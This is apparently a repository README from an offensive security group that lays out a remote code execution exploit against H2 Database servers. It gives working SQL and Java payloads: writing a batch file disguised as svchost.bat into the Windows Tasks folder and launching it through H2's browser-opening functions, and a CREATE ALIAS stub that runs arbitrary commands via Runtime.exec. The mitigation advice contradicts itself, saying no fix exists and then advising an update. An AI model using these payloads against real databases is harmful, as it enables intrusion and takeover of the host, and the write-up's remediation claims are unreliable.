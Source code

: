 # H2 Database Remote Code Execution (RCE) - Exploit Overview

**Date:** 17/07/2024  
**Author:** ViperX Offensive Security

## Affected Versions
H2 Database versions 1.0 to 2.3.230 are vulnerable to remote code execution (RCE).

## Exploit Flow
The exploitation strategy varies based on the version of the H2 Database:

1. **For Versions < 1.4:**
    - **Step 1:** Create a 'dummy' table within the database.
    - **Step 2:** Use the `SCRIPT SIMPLE NODATA NOSETTINGS TO '{BAT_FULLPATH}'` command to write output logs to a file located at `C:\Windows\Tasks\svchost.bat`.
    - **Step 3:** Depending on the specific version, execute the `.bat` file to achieve RCE:
        - For older versions, utilize `org.h2.util.StartBrowser.openURL`.
        - For newer versions, utilize `org.h2.tools.Server.openBrowser`.

2. **For Versions ≥ 1.4:**
    - **Step 1:** Exploit the 'CREATE ALIAS' function to execute Java code directly.

## Detailed Exploit Steps

1. **Creating a Dummy Table and Writing Logs:**
    ```sql
    CREATE TABLE dummy (id INT);
    SCRIPT SIMPLE NODATA NOSETTINGS TO 'C:\Windows\Tasks\svchost.bat';
    ```

2. **Executing the Batch File:**
    - **For Older Versions:**
        ```java
        org.h2.util.StartBrowser.openURL('file:///C:/Windows/Tasks/svchost.bat');
        ```
    - **For Newer Versions:**
        ```java
        org.h2.tools.Server.openBrowser('file:///C:/Windows/Tasks/svchost.bat');
        ```

** H2DB Versions >= 1.4 . **Java Code Execution via CREATE ALIAS:**
    ```CREATE FORCE ALIAS CMD_INJECT AS $$
  void pwshInject() throws Exception {
      Runtime.getRuntime().exec("%s");
  }
  $$;```

By leveraging these methods, an attacker can perform remote code execution on vulnerable H2 Database instances, potentially gaining control over the host system.

## Mitigation
Since no fixes are currently available, it is recommended to implement the following measures to protect against this vulnerability:

- Update to the latest version of H2 Database.
- Implement strict access controls to limit exposure to untrusted networks.
- Regularly audit and monitor database configurations and activity.

For further details and assistance, please contact ViperX Offensive Security.
